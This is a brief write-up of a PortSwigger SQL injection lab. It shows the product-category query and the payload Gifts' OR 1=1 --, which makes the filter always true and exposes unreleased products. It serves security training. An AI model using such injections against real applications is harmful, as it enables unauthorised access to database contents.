 ## Lab Description: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/273d4f24-0aa1-46ec-9086-b389698d0319)

## Solution:
Query made -
```sql
SELECT * FROM products WHERE category = 'Gifts' 
```
To view all the products (both released and not released) , we include Gifts' OR 1=1 -- so that it the condition evaluates to TRUE & displayed all the gifts.

The query looks like
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' 
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9d0251bb-94d1-4e26-a860-0085cf041515)
